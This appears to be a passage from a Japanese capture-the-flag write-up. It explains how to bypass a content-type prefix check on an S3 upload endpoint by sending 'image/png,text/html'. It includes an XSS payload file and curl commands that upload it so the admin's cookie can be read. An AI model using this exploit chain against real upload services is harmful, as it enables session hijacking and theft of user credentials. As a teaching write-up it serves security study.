 ### 攻略の糸口

このチャレンジでは、`contentType`の include 時のチェックをバイパスすることがポイントとなります。

`image/png,text/html`というように、`image/png`から始まる任意の文字列を指定し、`text/html`とブラウザで解釈されることが攻略の糸口となります。

先のシナリオ 4-1 及び 4-2 で学んだ仕様では、`;`の後ろにある文字列は Parameter として解釈され、`,`は構造体として、後方優先をされることがわかりました。

これらを用いると、先頭と末尾が共に`image/png`である任意の文字列を指定することが可能になります。

例えば、`image/png,text/html;image/png`というように、`image/png`で始まり、`image/png`で終わる任意の文字列を指定することで、任意の HTML ファイルをアップロードすることが可能です。

ここからの流れはシナリオ 4-1 と同様です。

以下の HTML ファイルを `xss.html` として保存します。

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

保存した HTML ファイルを用いて、以下のようなコマンドを実行します。

```sh
TARGET_HOST="....."
FILE=xss.html
LENGTH=$(stat -c %s $FILE)
URL=$(curl -X POST https://${TARGET_HOST}/api/upload \
  -H "Content-Type: application/json" \
  -d '{"contentType":"image/png,text/html","length":'$LENGTH'}') | jq -r '.url'
curl -X PUT $URL --upload-file $FILE -H "Content-Type: image/png,text/html"
```

その後、出力された URL を Report URL に入力することで、管理者の画面で任意の JavaScript を実行することが可能です。
実行後は、`/delivery/{uuid}`の S3 に保存されたファイルを閲覧することで、管理者の Cookie を含んだ HTML ファイルを閲覧することが可能です。
